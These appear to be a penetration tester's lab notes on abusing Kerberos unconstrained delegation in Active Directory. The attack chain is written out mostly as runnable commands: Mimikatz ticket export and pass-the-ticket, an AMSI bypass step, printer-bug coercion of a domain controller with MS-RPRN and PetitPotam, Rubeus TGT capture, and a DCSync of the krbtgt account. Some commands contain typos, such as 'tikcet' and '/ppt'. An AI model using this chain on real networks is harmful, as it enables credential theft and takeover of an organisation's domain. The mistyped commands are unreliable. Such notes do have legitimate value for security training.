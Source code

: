 # Using PowerShell
## Methodology/Steps
> 1. For an example we have machine pwn1 as an Unconstrained user; We are pwn0 and we got foot-hold/credentials/hashes for machine pwn2 who has local admin access for machine pwn1; Hence we can perform this attack
> 2. Get a Powershell session as a different user using **"Over pass the hash"** attack if required(in this case its **pwn2/appadmin**)
> 3. We can try searching for local admins it has access to using **Find-LocalAdminAccess -Verbose**
> 4. Create a **New-PSSession** attaching to the **"Unconstrained user"**
> 5. Enter the new session using **Enter-PSSession**
> 6. Bypass the *AMSI*
> 7. EXIT
> 8. Load **Mimikatz.ps1** on the new session using **Invoke-command**
> 9. Enter the new session using **Enter-PSSession** *again*
> 10. Now we can get the admin token and save it to the disk
> 11. Try and check if you have any file from a DA
> 12. If not we can try to pull if there is any sessions logged on as *Administrator* as pwn0 using **Invoke-Hunter** then run the attack again
> 13. Once we get an DA token we can Reuse the token using **Invoke-Mimikatz**
> 14. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or use **WMI-Commands** / **ScriptBlock:Not sure**

---

## PowerView
### Enumerate computers with Unconstrained Delegation
```powershell
Get-NetComputer -UnConstrained
```
```ad-note
Ignore the domain controllers if they apeare in the list as they have Unconstrained Delegation enabled
```

### Check if a token is available and save to disk
> **Get admin token**
> After compromising the computer with UD enabled, we can trick or wait for an admin connection
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### Reuse of the DA token
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi"'
```

---

## Invoke-Hunter
### Pull any sessions if logged on with administrator/ Printer Bug
```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

---
# Using Binaries
## Methodology/Steps
> 1. Set Rubeus on monitor mode
> 2. Run Print Bug using MS-RPRN or PetitPotman
> 3. You will get the TGT on rubues
> 4. Copy and inject that into memory using */ppt* or do it manually
> 5. Now you can access the shares or do a DCSync Attack

---

## Print Bug 
### 1. MS-RPRN
> https://github.com/leechristensen/SpoolSample
```powershell
MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```
$$ OR $$
### 1. PetitPotam
> https://github.com/topotam/PetitPotam
```powershell
PetitPotam.exe us-web us-dc
```
```ad-note
PetitPotam uses EfsRpcOpenFileRaw function of MS-EFSRPC (Encrypting File System Remote Protocol) protocol and doesn't need credentials when used against a DC
```

---

## Rubeus
### 2. Capture the TGT and Jump or Run DCsync
```powershell
# Captute the TGT
Rubeus.exe monitor /interval:5

# Copy the base64 encoded TGT, remove extra spaces and use it on the attacker' machine
Rubeus.exe ptt /tikcet:

# OR use Invoke-Mimikatz
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi",[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'

# Run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```
